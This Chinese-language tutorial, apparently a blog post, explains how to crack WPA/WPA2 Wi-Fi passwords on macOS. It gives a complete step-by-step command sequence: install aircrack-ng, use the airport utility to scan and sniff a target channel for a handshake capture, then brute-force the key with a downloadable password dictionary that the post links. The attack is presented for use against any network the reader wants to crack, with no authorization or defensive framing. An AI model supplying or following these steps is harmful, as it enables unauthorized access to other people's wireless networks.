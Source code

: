 # mac osx 破解wpa/wpa2 wifi

----

> 首先要安装aircrack-ng工具
可以使用Homebrew进行安装
```
brew install aircrack-ng
```

> 第二步，我们将 airport 命令引入到用户命令里，在终端输入：
```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```
<!--more-->

> 第三步，用airport搜索附近wifi
```
sudo airport -s
```

结果如下图所示:
![image](/img/airport_s.png)
 

> 第四步，根据搜索出的wifi进行嗅探
```
sudo airport  en0 sniff  1
```
上面的en0为wifi card所在的地址, 有的也可能为en1, 可以根据实际情况输入, 可从以下地方获得:
![image](/img/wificard_addr.png)

1为你所要嗅探的wifi所在的CHANNEL.
默认嗅探的所存的文件在/tmp中, 以airportSniff**.cap形式命名.
wordlist 为wifi密码字典

> 第五步，就是使用aircrack-ng和下载的密码字典进行暴力破解
```
aircrack-ng -w wordlist airportSniff****.cap
```
一般输入如下所示:
![image](/img/aircrack-ng.png)

最后看上面cap文件内的抓包内容, Encryption列中找到WPA (1 handshake)—它表示抓包成功. 当然要找到你想破解wifi的成功抓包, 然后在「Index number of target network?」中输入该成功抓包所在的行号. 此示例中为1:
![image](/img/index-number.png)

破解过程如下:
![image](/img/running.png)

如果破解成功, 会显示 KEY FOUND!:
![image](/img/aircrack-ng-success.jpg)

密码词典：https://pan.baidu.com/s/1geH8EAn

参考：http://qiangweng.site/